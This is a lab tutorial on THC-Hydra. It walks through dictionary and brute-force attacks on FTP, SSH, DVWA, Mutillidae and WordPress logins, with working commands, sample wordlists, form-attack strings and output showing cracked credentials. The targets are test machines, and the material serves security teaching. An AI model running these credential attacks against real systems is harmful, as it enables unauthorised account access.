

# THC-Hydra  <!-- omit in toc -->

## Table of Contents  <!-- omit in toc -->

- [Using THC-Hydra](#using-thc-hydra)
  - [Attacking FTP service with THC-Hydra](#attacking-ftp-service-with-thc-hydra)
  - [Attacking SSH service with THC-Hydra](#attacking-ssh-service-with-thc-hydra)
  - [Attacking a Web application with THC-Hydra](#attacking-a-web-application-with-thc-hydra)
    - [DVWA - Damn Vulnerable Web Application](#dvwa---damn-vulnerable-web-application)
    - [OWASP Mutillidae](#owasp-mutillidae)
    - [Wordpress](#wordpress)
  - [Using THC-Hydra for brute-force attacks](#using-thc-hydra-for-brute-force-attacks)
- [References/Additional information](#referencesadditional-information)

## Using THC-Hydra

[THC-Hydra](https://github.com/vanhauser-thc/thc-hydra) is a tool that was developed for security researchers to help testing the robustness of password-based systems. Hydra is a tool to guess/crack valid login/password pairs.

This tool has multiple options. You should look at the help of the function to learn about its functionalities. 

    hydra -h

Which produces the following result. This is simply a part of the output that this command presents.

    Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

Hydra supports a large set of protocols and services, such as:

- POP3
- FTP
- HTTP-GET, HTTP-POST-FORM, HTTP-GET-FORM
- Firebird
- Subversion
- Telnet
- Postgres
- SSH
- Teamspeak
- MySQL
- rexec
- SOCKS5
- SNMP
- NNTP
- ... more.

THC-Hydra can handle the following types os attacks:
- Brute force attacks
- Dictionary attacks
- Parallel attacks (16 threads by default, -t option)
- Check for null, login as password, reversed characters (-e option)
- Attack several different servers

There are also some graphical tools for THC-Hydra, such as `xhydra`. You may install and launch this tool by doing:

    xhydra

### Attacking FTP service with THC-Hydra

In the example, we are going to launch a **dictionary attack** against the FCP service of the victim. In order to do this we need to use a word list file (the dictionary) that contain the words to be used as passwords.

We may create that file, or we may use some file downloaded from the Internet (please refer to the first part of this document) or we may also use some of the word list files that are part of Kali Linux. You may find such files on the `/usr/share/wordlists` folder.

It is important to notice that, the bigger the file, the longer will be the processing time of such file.

For demonstration purposes, let's create two files. The first one will be called `users.txt` and will contain a list of possible users:

    root
    admin
    test
    guest
    info
    adm
    mysql
    user
    administrator
    oracle
    ftp
    pi
    puppet
    ansible
    ec2-user
    vagrant
    azureuser

And we will also create a file called `passwords.txt` which will contain the list of most common passwords in 2022:

    123456
    123456789
    qwerty
    password
    12345
    qwerty123
    1q2w3e
    12345678
    111111
    1234567890

If you don't want to create these files, I've created them for you. You can **download here** the [list of users](files/users.txt) and the [list of passwords](files/passwords.txt).

Now, we can start the THC-Hydra to test the FCP service and check if some of the users and passwords match some existing user on the FTP service.

    hydra -v -V -L users.txt -P passwords.txt 192.168.8.142 ftp

`-L` is used to specify the file that contain the usernames, in this case `users.txt`

`-P` is used to specify the file that contain the passwords, in this case `passwords.txt`

`-v` activates the verbose mode

`-V` displays each attempt with a username/password pair

You'll get a similar output to this one:

    ...
    [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "123456" - 1 of 187 [child 0] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "123456789" - 2 of 187 [child 1] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "qwerty" - 3 of 187 [child 2] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "password" - 4 of 187 [child 3] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "12345" - 5 of 187 [child 4] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "qwerty123" - 6 of 187 [child 5] (0/0)
    ...

After running the tool, try to **interpret its results** and **check if you were able to find** some valid username/password pair.

You may also run THC-Hydra to just try to do a dictionary attack against a specific username. In this case you have to specify the username and simply use the `passwords.txt` file. The command is similar:

    hydra -v -V -l msfadmin -P passwords.txt 192.168.8.142 ftp

Which results in:

    Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-05 16:26:08
    [DATA] max 12 tasks per 1 server, overall 12 tasks, 12 login tries (l:1/p:12), ~1 try per task
    [DATA] attacking ftp://192.168.8.142:21/
    [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "123456" - 1 of 12 [child 0] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "123456789" - 2 of 12 [child 1] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "qwerty" - 3 of 12 [child 2] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "password" - 4 of 12 [child 3] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "12345" - 5 of 12 [child 4] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "qwerty123" - 6 of 12 [child 5] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "1q2w3e" - 7 of 12 [child 6] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "12345678" - 8 of 12 [child 7] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "msfadmin" - 9 of 12 [child 8] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "111111" - 10 of 12 [child 9] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "1234567890" - 11 of 12 [child 10] (0/0)
    [ATTEMPT] target 192.168.8.142 - login "msfadmin" - pass "" - 12 of 12 [child 11] (0/0)
    [21][ftp] host: 192.168.8.142   login: msfadmin   password: msfadmin
    [STATUS] attack finished for 192.168.8.142 (waiting for children to complete tests)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-05 16:26:13

### Attacking SSH service with THC-Hydra

In this case, we are going to launch a dictionary attack against the SSH service on the victim. The approach is similar to the one presented before, the only difference is just to chance the service name:

    hydra -v -V -L users.txt -P passwords.txt 192.168.8.142 ssh

Note: this will only work if the SSH service accepts password-based authentication.

### Attacking a Web application with THC-Hydra

In here we are going to use dictionary attacks against web applications.

#### DVWA - Damn Vulnerable Web Application

In order to do this, we will use a vulnerable web application called [DVWA](https://github.com/digininja/DVWA). You'll find more information about how to install [DVWA](../appsecurity/dvwa.md) in this section.

For this sake, we'll assume that you already have DVWA installed and that it can be used.

First, lets navigate login page of the application and we will try to use a dictionary attack to crack the authentication web page of the application.

    http://192.168.8.142/dvwa/login.php

In order to find how to conduct the attack, we need to inspect the web page to understand how we could use THC-Hydra to launch the attack.

After looking at the page we learn that is necessary to send the following parameters, through the POST method:

`username`: this is the name of the user

`password`: this is the password of the user

`Login`: a variable that always contains the value "Login"

We also need to understand what fails in the case of a bad authentication. In this case we notice that the application presents the message "**Login Failed**". This is important for THC-Hydra to distinguish a successful from unsuccessful login attempts.

So in order to conduct this attack, we need to do:

    hydra -L users.txt -P passwords.txt -I -e ns -F -u -t 1 -w 10 -v -V 192.168.8.142 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:F=Login failed"

Some of the parameters are already known, but lets look at some others:

`-I`: ignore an existing restore file - basically it always starts over.

`-e ns`: try "n" null password, "s" login as pass and/or "r" reversed login. In this case, we are going to test for null passwords and also use the username as password as well.

`-F`: exit when a login/pass pair is found. This will immediately stop the search for more passwords, when one is found. This is not a good idea if you are planning on trying to identify/find all the possible passwords.

`-u`: loop around users, not passwords

`-t 1`: run TASKS number of connects in parallel per target. In this case we are just using a single task.

`-w 10`: wait time for a response. This indicates that THC-Hydra will wait for 10 seconds before giving a timeout.

After this we should look at the output of the THC-Hydra tool:

    ...
    [ATTEMPT] target 192.168.8.142 - login "azureuser" - pass "qwerty" - 90 of 252 [child 0] (0/0)
    [VERBOSE] Page redirected to http[s]://192.168.8.142:80/dvwa/login.php
    [ATTEMPT] target 192.168.8.142 - login "root" - pass "password" - 91 of 252 [child 0] (0/0)
    [VERBOSE] Page redirected to http[s]://192.168.8.142:80/dvwa/login.php
    [ATTEMPT] target 192.168.8.142 - login "admin" - pass "password" - 92 of 252 [child 0] (0/0)
    [VERBOSE] Page redirected to http[s]://192.168.8.142:80/dvwa/index.php
    [80][http-post-form] host: 192.168.8.142   login: admin   password: password
    [STATUS] attack finished for 192.168.8.142 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-07 01:28:28

You may find more details by using the following command to get more usage options for a given module:

    hydra -U http-get-form

#### OWASP Mutillidae

Now we are going to try with a different web application. Metasploitable 2 also packs another vulnerable web application called [Mutillidae](https://github.com/webpwnized/mutillidae).

This Mutillidae is also a vulnerable web application that was developed in PHP that might also be used for demonstration of multiple web application security problems. However, in this case, we might use it also for demonstrating attacks against passwords.

After having Mutillidae up and running, we may try to attack it using also THC-Hydra. Again, and similarly to what happened before, we need to study our target before launching the proper attack. So lets look at the URL we want to target and that contains the authentication form:

    http://127.0.0.1/index.php?page=login.php

So, this page has a form that expects a set of parameters to be send through the POST method. These values are:

`username`: this is the name of the user

`password`: this is the password of the user

`Login`: a variable called `login-php-submit-button` that always contains the value "Login"

We also need to understand what fails in the case of a bad authentication. In this case we notice that the application presents the message "**Password Incorrect**". This is important for THC-Hydra to distinguish a successful from unsuccessful login attempts.

So in order to conduct this attack, we need to do:

    hydra -L users.txt -P passwords.txt -I -e ns -F -u -t 1 -w 10 -v -V 127.0.0.1 http-post-form "/index.php?page=login.php:username=^USER^&password=^PASS^&login-php-submit-button=Login:F=Password Incorrect"

The parameters are the same that were used before. The results are:

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-07 17:52:25
    [WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
    [DATA] max 1 task per 1 server, overall 1 task, 252 login tries (l:18/p:14), ~252 tries per task
    [DATA] attacking http-post-form://127.0.0.1:80/index.php?page=login.php:username=^USER^&password=^PASS^&login-php-submit-button=Login:F=Password Incorrect
    [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
    [ATTEMPT] target 127.0.0.1 - login "root" - pass "root" - 1 of 252 [child 0] (0/0)
    [ATTEMPT] target 127.0.0.1 - login "admin" - pass "admin" - 2 of 252 [child 0] (0/0)
    [VERBOSE] Page redirected to http[s]://127.0.0.1:80/index.php?popUpNotificationCode=AU1
    [80][http-post-form] host: 127.0.0.1   login: admin   password: admin
    [STATUS] attack finished for 127.0.0.1 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-07 17:52:26

#### Wordpress

Next we will try to use THC-Hydra to attack a well-known CMS system, that is used too host multiple web sites - [Wordpress](https://wordpress.org/). For this, we need to install or use an already existing Wordpress instance.

One possible option is to install Wordpress using [Docker](https://www.docker.com/). There is a nice guide that [explains how to install Wordpress on Docker](https://www.hostinger.com/tutorials/run-docker-wordpress). Another alternative is to install Wordpress in a virtual machine - either VirtualBox or VMware. A great place to obtain and download such virtual machines is on [Bitnami](https://bitnami.com/) - you may find the direct [download of Wordpress VM here](https://bitnami.com/stack/wordpress/virtual-machine).

Depending on how install the Wordpress, you have access to this address for users to login (remember that the address might change):

    http://127.0.0.1:8000/wp-login.php

As always, we need to analyze the website to learn which are the parameters that are required by the form to operate. After this analysis we find that the form requires the following parameters to be used - via POST:

`log`: this contains the username of the user

`pwd`: this contains the password of the user

`wp-submit`: the button to submit the request, that should receive the value `Log In`

`testcookie`: an hidden value that is required to be passed during the login process and that has the value `1`

`redirect_to`: an hidden value that shows where the page will redirect upon a successful login, in this case has the value `http://localhost:8000/wp-admin/`

We need to understand also what happens when the authentication is successful. In this case it will happen a redirect on the page. So we can test in the case of success (`S`) and having the location changed (`Location`). 

So lets run THC-Hydra:

    hydra -L users.txt -P passwords.txt -I -e ns -F -u -t 1 -w 10 -v -V -s 8000 127.0.0.1 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1&redirect_to=XPTO:S=Location"

In this case, we have a new option that is going to the be used:

`-s 8000`: This option is used to specify the port in which the web application is running. In this case the web application runs on port `8000`

If everything goes well, we will obtain a result:

    Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-11-07 19:22:28
    [WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
    [DATA] max 1 task per 1 server, overall 1 task, 252 login tries (l:18/p:14), ~252 tries per task
    [DATA] attacking http-post-form://127.0.0.1:8000/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1&redirect_to=XPTO:S=Location
    [VERBOSE] Resolving addresses ... [VERBOSE] resolving done
    [ATTEMPT] target 127.0.0.1 - login "root" - pass "root" - 1 of 252 [child 0] (0/0)
    [ATTEMPT] target 127.0.0.1 - login "admin" - pass "admin" - 2 of 252 [child 0] (0/0)
    [8000][http-post-form] host: 127.0.0.1   login: admin   password: admin
    [STATUS] attack finished for 127.0.0.1 (valid pair found)
    1 of 1 target successfully completed, 1 valid password found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-11-07 19:22:30

### Using THC-Hydra for brute-force attacks

All the attacks we have been performing are dictionary attacks. This requires the existence of a good word list that allows someone to find the password, if a word in the list was used as a password. This might not be always the case. So we might need to use a **brute-force attack** to test every possible combination as a password.

In order to use this, we need to use the option `-x` that allows the generation of passwords according to a given mask. You may use the following command to obtain more options about this functionality:

    hydra -x -h

That displays this help:

    Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

    Hydra bruteforce password generation option usage:

    -x MIN:MAX:CHARSET

        MIN     is the minimum number of characters in the password
        MAX     is the maximum number of characters in the password
        CHARSET is a specification of the characters to use in the generation
                valid CHARSET values are: 'a' for lowercase letters,
                'A' for uppercase letters, '1' for numbers, and for all others,
                just add their real representation.
    -y         disable the use of the above letters as placeholders
    Examples:
    -x 3:5:a  generate passwords from length 3 to 5 with all lowercase letters
    -x 5:8:A1 generate passwords from length 5 to 8 with uppercase and numbers
    -x 1:3:/  generate passwords from length 1 to 3 containing only slashes
    -x 5:5:/%,.-  generate passwords with length 5 which consists only of /%,.-
    -x 3:5:aA1 -y generate passwords from length 3 to 5 with a, A and 1 only

    The bruteforce mode was made by Jan Dlabal, http://houbysoft.com/bfg/

So if we want to brute-force a service with only passwords that are numbers, we can do the following (in this case we are going to use only numbers from 0-999999):

    hydra -v -V -l msfadmin -x 1:6:1 192.168.8.142 ftp

We can try passwords that are only lower case letters, with 5 characters in length:

    hydra -v -V -l msfadmin -x 5:5:a 192.168.8.142 ftp

Or we can use multiple combinations, such as using lower and upper case letters, and also numbers:

    hydra -v -V -l msfadmin -x 5:5:aA1 192.168.8.142 ftp

This results in **916132832** possible combinations. :-)

## References/Additional information

1. [https://github.com/vanhauser-thc/thc-hydra](https://github.com/vanhauser-thc/thc-hydra)
2. [https://linuxhint.com/how-to-install-and-use-thc-hydra/](https://linuxhint.com/how-to-install-and-use-thc-hydra/)
3. [https://techyrick.com/hydra-full-tutorial/](https://techyrick.com/hydra-full-tutorial/)
4. [https://securitytutorials.co.uk/brute-forcing-passwords-with-thc-hydra/](https://securitytutorials.co.uk/brute-forcing-passwords-with-thc-hydra/)
5. [https://www.automatetheplanet.com/thc-hydra-password-cracking-by-examples/](https://www.automatetheplanet.com/thc-hydra-password-cracking-by-examples/)
